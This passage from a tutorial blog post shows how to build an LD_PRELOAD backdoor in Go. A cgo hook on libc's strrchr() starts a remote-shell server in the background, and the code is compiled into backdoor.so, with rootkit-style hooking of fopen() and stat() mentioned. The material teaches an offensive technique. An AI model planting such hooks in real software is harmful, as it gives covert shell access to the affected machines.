 ```go

                conn.Write(output)
        }

        conn.Close()
}
```

[`net/textproto`]: https://golang.org/pkg/net/textproto/

## Starting the remote shell when the libc function is called

Let's try starting the remote shell whenever our target application
tries to invoke a given libc function.

We're going to start the remote shell server in a goroutine, so it can
continue working in the background while we invoke the origin libc
function being called.

In this example, I'm hooking into the `strrchr()` libc function, simply
because it's used early on by top and it has a simple function signature
that's easy to implement in cgo. If this were a rootkit, you might be
hooking `fopen()` and `stat()`, but for our example, `strrchr()` will
suffice:

```go
//export strrchr
func strrchr(s *C.char, c C.int) *C.char {
        // Start remote shell
        go backdoor()

        lib, err := dl.Open("libc", 0)
        if err != nil {
                log.Fatalln(err)
        }
        defer lib.Close()

        var old_strrchr func(s *C.char, c C.int) *C.char
        lib.Sym("strrchr", &old_strrchr)

        // Call original libc functional and return its return value
        return old_strrchr(s, c)
}
```

## Testing it out

To compile the shared C library, use `go build` with the `-buildmode`
flag:

```sh
$ go build -buildmode=c-shared -o backdoor.so main.go
```


[BSides Manchester]: http://www.bsidesmcr.org.uk/
[Alastair O'Neill]: https://twitter.com/_ta0
[rootkits]: https://en.wikipedia.org/wiki/Rootkit
[rootkit]: https://en.wikipedia.org/wiki/Rootkit
[link to dynamically]: https://en.wikipedia.org/wiki/Dynamic_linker
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[PAM]: https://en.wikipedia.org/wiki/Pluggable_authentication_module
[Azazel]: https://github.com/chokepoint/azazel
[fopen]: http://www.gnu.org/software/libc/manual/html_node/Opening-Streams.html
[usefully be used]: https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
[new execution modes]: https://docs.google.com/document/d/1nr-TQHw_er6GOQRsF6T43GGhFDelrAP0NqSS_00RgZQ/edit?pli=1#heading=h.44n2lm20ate5
[shared object file]: http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html
[cgo]: https://golang.org/cmd/cgo/
[Go blog article]: http://blog.golang.org/c-go-cgo
[dynamic library loader for Go]: https://github.com/rainycape/dl
[example code]: https://github.com/mattbostock/go-ldpreload-backdoor